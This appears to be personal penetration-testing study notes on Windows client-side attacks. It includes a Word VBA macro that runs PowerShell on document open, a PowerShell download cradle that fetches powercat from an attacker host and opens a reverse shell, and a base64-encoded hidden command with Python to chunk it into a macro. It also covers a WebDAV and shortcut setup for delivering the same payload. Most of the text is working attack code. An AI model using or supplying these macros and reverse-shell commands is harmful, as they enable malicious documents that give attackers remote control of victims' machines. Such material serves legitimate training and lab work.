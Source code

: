 ## Using MACROS

Save the document as a .doc document (Word 97-2003 option)
navigate to macros and use the following code
one for Auto open the document, the other for Opening the document, and last to run the script that you wish the document to run


![[Pasted image 20231009101852.png]]

Sub AutoOpen()

 MyMacro

End Sub

Sub Document_Open()

 MyMacro
 
End Sub

Sub MyMacro()

 CreateObject("Wscript.Shell").Run "powershell"

End Sub ^655ce0


PowerShell download cradle and PowerCat reverse shell
```
IEX(New-Object System.Net.WebClient).DownloadString('http://192.168.119.2/powercat.ps1');powercat -c 192.168.119.2 -p 4444 -e powershell
```

Encode it with base64 UTF-16LE

This Loop will turn any that is on the **str** into 50 character division

EXAMPLE

str = "powershell.exe -nop -w hidden -e SUVYKE5ldy1PYmplY3QgU3lzdGVtLk5ldC5XZWJDbGllbnQpLkRvd25sb2FkU3RyaW5nKCdodHRwOi8vMTkyLjE2OC40NS4xODEvcG93ZXJjYXQucHMxJyk7cG93ZXJjYXQgLWMgMTkyLjE2OC40NS4xODEgLXAgNDQ0NCAtZSBwb3dlcnNoZWxs"

n = 50

for i in range(0, len(str), n):
    print("Str = Str + " + '"' + str[i:i+n] + '"'



 
^99cc34

## CODE EXECUTION VIA WINDOWS LIBRARY FILES

we use **wsgidav and webdav** for this to connect a directory with the windows client

wsgidav --host=0.0.0.0 --port=80 --auth=anonymous --root /home/kali/webdav/

To open a port to talk to the client

**Powershell command to download Powercat shell execution**
Create a shortcut
```
powershell.exe -c "IEX(New-Object System.Net.WebClient).DownloadString('http://192.168.119.3:8000/powercat.ps1');
powercat -c **192.168.119.3** -p 4444 -e powershell"
```

**IP YOU WISH TO CHANGE IT TO SO IT TALKS TO YOU**

MAKE SURE YOU OPEN BOTH THE HTTP SERVER PORT AND THE NC LISTENER


## Q3 (Last Capstone)


